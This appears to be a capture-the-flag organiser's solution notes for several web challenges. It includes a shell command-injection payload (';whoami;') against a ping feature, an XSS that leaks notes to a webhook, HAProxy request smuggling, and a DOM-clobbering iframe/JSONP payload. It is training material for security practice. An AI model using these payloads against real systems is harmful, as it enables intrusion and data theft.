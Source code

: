
Author writeups: https://abdulhaq.me/blog/iron-ctf-2024/#web-secret-notes


# JWT hunt:
Different parts of jet token secret key in :
/robots.txt
/sitemap.xml
in cookies
Send HEAD request to /secretkeypart4 and key is in the headers.

# b64site viewer:

Everything in discord question.

# cerealShop:
php objection injection. Everything in discord question.

# moviereviewapp:
git dump the application. Go through the commits to find about  the servermonitor/admin directory which had a hidden admin login page. The creds can be seen hardcoded while going through other commits.
Logging into the admin panel we see a page which can be used to ping an ip address.
Going through the source code of the ping app through the git logs we see this:

```
def ping_ip(ip, count):
    if re.match(r'^((25[0-5]|(2[0-4]|1\d|[1-9]|)\d)\.?\b){4}$', ip):
        return subprocess.check_output(f"ping -c {count} {ip}", shell=True).decode()
    else:
        return "Invalid ip address and count!"
```

The count parameter has no validation so we can inject arbitrary commands.
So finally:
Exploit Scenario:
1. Login to the admin panel using the credntials.
2. Supply a valid IP in the IP address and intercept the request. Change the count to value as:
;whoami;

Final payload on Server side will work like:
ping -c ;whoami; x.x.x.x.

# Loan App:
Had to exploit the http smuggling vulnerability in the haproxy version being used:
https://jfrog.com/blog/critical-vulnerability-in-haproxy-cve-2021-40346-integer-overflow-enables-http-smuggling/

# Secret Notes:
The main concept of this chall is reflected XSS via HTML injection in alt={name} and leak memo with it.
Set Cookie as session={session};path=/profile; The priority of cookie is sort by path, and when admin bot logins, It will redirect to /profile page,
and then XSS trriggers and leak notes to webhook.

# Beautiful Buttons:

# HTML personality analyser:


# Hiring platform:

The intended approach was to manipulate the DOM by using:

```html
<form id="PRODUCTION"></form>
```

Then, an input element was added with the `form` attribute:

```html
<input type="text" name="remark" value="SELECT NOW!!" form="select_humans">
```

This approach leverages the `form` attribute, allowing the input's value to be submitted with the form specified by the form ID (`select_humans`) elsewhere on the page. Additionally, a JSONP endpoint in WordPress was used to trigger a button click.

```html
<form id="PRODUCTION">
    <input type="text" name="remark" value="SELECT NOW!!" form="select_humans">
</form>
<iframe srcdoc="<script src='/blog/wp-json/wp/v2/users/1?_jsonp=window.parent.document.body.firstElementChild.nextElementSibling.nextElementSibling.firstElementChild.submit'></script>"></iframe>
```
